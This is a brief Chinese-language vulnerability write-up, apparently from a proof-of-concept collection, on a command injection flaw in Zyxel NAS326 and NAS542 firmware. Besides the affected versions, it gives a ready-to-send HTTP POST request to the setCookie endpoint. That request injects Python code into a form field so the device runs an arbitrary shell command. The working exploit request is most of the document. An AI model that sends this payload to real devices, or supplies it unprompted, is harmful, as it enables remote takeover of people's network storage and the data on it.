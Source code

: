 **漏洞介绍**

Zyxel NAS542和Zyxel NAS326都是中国合勤（Zyxel）公司的产品。Zyxel NAS542是一款NAS（网络附加存储）设备。Zyxel NAS326是一款云存储 NAS。

Zyxel NAS326 V5.21(AAZF.17)C0之前版本、NAS542 V5.21(ABAG.14)C0之前版本存在操作系统命令注入漏洞，该漏洞源于setCookie参数中存在命令注入漏洞，从而导致攻击者可通过HTTP POST请求来执行某些操作系统 (OS) 命令。

**影响版本**

Zyxel NAS326 V5.21(AAZF.17)C0之前版本

NAS542 V5.21(ABAG.14)C0之前版本存

**漏洞复现**

 **POC** 

```yaml
POST /cmd,/simZysh/register_main/setCookie HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0 ldwk
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=--------------------------0987654321
Content-Length: 237

----------------------------0987654321
Content-Disposition: form-data; name="c0"

storage_ext_cgi CGIGetExtStoInfo None) and False or __import__("subprocess").check_output("命令", shell=True)#
----------------------------0987654321--

```


